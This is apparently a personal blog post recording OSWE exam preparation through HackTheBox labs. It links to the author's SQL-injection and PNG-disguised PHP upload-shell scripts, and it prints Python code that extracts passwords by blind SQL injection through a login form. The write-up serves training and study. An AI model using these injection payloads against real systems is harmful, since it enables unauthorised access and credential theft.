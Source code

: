 ```yaml
---
layout: post
title: OSWE preparation
date: 2023-12-23 10:14:00-0400
description: My OSWE examination preparation 
tags: preparation offsec oswe web
categories: cheetsheet
giscus_comments: true
related_posts: false
toc:
  sidebar: left
---
```


{% include figure.html path="assets/img/posts/oswe_preparation/oswe_introduction.jpg" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

### Introduction

{:data-toc-text="Introduction"}
Start of preparation for [OSWE](https://www.offsec.com/courses/web-300/) exam from OffSec :)\
Wanna blog my progress to preparations - share links, progress, minds about and e.t.c

---

### Сollecting material to study
{:data-toc-text="Material"}

For first, wanted to get information about exam format, people opinion who passed, found couple of pages:
* [Как я OSWE сдавал](https://habr.com/ru/companies/pm/articles/733170/)
* [Becoming a web security expert](https://habr.com/ru/companies/angarasecurity/articles/595071/)
* [An honest OSWE 2023 review](https://charchitverma100.medium.com/an-honest-oswe-2023-review-my-journey-preparation-and-exam-67d0adcbcde4)


After, i started to search technical material to prepare exam.\
There is [google table](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=665299979) with HackTheBox machines which can improve my skill for OSWE exam. IDK what these machines contain, i plan to solve and describe it later, when it be a christmas holidays. And take notes about all whitebox pentesting moments in these machines.

{% include figure.html path="assets/img/posts/oswe_preparation/htb_machines_table.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

There are machines i've decided to solve and write some descriptions:
* Blocky (Easy) 
* Help (Easy)
* Popcorn (Medium)
* Falafel (Hard)

Also, was found a nice [link](https://github.com/snoopysecurity/OSWE-Prep) that can be used too.

---
 
### HTB Machines
Next are reviews of hackthebox labs which have some OSWE-like challanges. I'm not going to describe every machine with full write up, I only notice key moments.


#### Blocky
Simply, dowload JD-GUI and explore couple of jar-files, located in [http://blocky.htb/plugins/](http://blocky.htb/plugins/).

JD-GUI is a standalone graphical utility that displays Java source codes of ".class" files. You can browse the reconstructed source code with the JD-GUI for instant access to methods and fields.

{% include figure.html path="assets/img/posts/oswe_preparation/blocky_jd_gui.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Help
SQL injection in 1.0.2 of HelpDeskZ - free PHP based software which allows to manage site's support with a web-based support ticket system.

Exploit-db have a Python-version [exploit](https://www.exploit-db.com/exploits/41200) for that CVE, but i've decided to create my own, Golang version, only for practice.

Here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/helpdeskz_sqli_exploit.go) to my GitHub. Some coding was interesting and useful, that was my first full script on Golang.

{% include figure.html path="assets/img/posts/oswe_preparation/help_sqli.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Popcorn
Simple task to create PHP-shell for uploading, but bypassing some restrictions via injecting image magic bytes in shell. My choice was PNG.

{% include figure.html path="assets/img/posts/oswe_preparation/popcorn_png.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

Most cofortable for that task was Python, by my opinion, here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/upload_php_png.py) to script.

#### Falafel
Here was Blind SQLi in the login form, where we could extract some passwords. I have wasted some time on script creation. The task was simple, but it was an annoying error that I couldn't understand while working with prepared requests in Python.

Next situation: for SQLi, I needed to send my body in POST request without URL-encoding, since that is the default behavior. But I found a way to bypass it by using prepared requests.

I have not found much practical information about using it, and finding errors myself is waiting for me.

Prepared statemets allow to change body after creating a request, but HTTP-header Content-length will not be updated. I didn't know it.


Final piece of code to send URL-decoded body:

```python
...
  sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, chr_)
  data = {'username': sql_string, 'password':'pass'}

  req = requests.Request('POST', lab_url, data=data)
  
  prep = session.prepare_request(req)
  prep.body = urllib.parse.unquote(prep.body)
  prep.headers['Content-length'] = len(prep.body)

  resp = session.send(prep)
...
```

It's better to binary search instead of O(N), but im lazy. Here is proof of dupmping all tables:

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_tables.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

UPD, added function for binary search О(logN) - maybe will use it as basement for future tasks:

```python
def binary_extract_passwords():
    password = ""

    for indx in range(1, 40):
        left = 47
        right = 123

        while left <= right:
            cursor = left + (right - left) // 2

            # Check cursor (middle)
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                password = password + chr(cursor)
                break

            # Сheck sides
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))>{}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                left = cursor + 1
            else:
                right = cursor - 1
    print(password)
```

And [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/blind_sqli_extractor.py) to my script.

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_pass.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

<br/><br/>

### Buying WEB-300
In middle of January 2024, my company bought me the course for my own account.
{% include figure.html path="assets/img/posts/oswe_preparation/web300.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

### Passing exam
(Names when buying and passing exam are different, because i forgot i have another name in international passport lol)
{% include figure.html path="assets/img/posts/oswe_preparation/pass_exam.jpg" title="pass_exam" class="img-fluid rounded z-depth-1" %}

---